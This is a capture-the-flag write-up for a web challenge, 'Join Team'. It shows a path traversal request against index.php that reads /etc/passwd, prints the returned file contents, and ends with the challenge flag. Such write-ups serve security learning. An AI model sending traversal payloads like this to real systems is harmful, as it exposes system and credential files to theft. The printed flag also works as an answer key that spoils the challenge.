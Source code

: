 ## Join Team
```
Flag safe in the server environment , can you reveal it.
```
- Link: http://18.192.3.151/join-team/

#### Solve:

- Steps

    - Viewing the page source and take a tour, clicking every button we will notice an upload CV form.
    
    - After several tries to bypass the upload form mechanism, I decided to search for another vuln ..
    
    - Tried *../../../../../../../../../../../../../etc/passwd* and it did work !
        ```commandline
        >> http://18.192.3.151/join-team/index.php?../../../../../../../../../../../../../etc/passwd
         root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin Debian-exim:x:101:102::/var/spool/exim4:/usr/sbin/nologin 
        ```
     
- **Flag: | Flag: {J4V4_Scr1Pt_1S_S0_D4MN_FUN} |**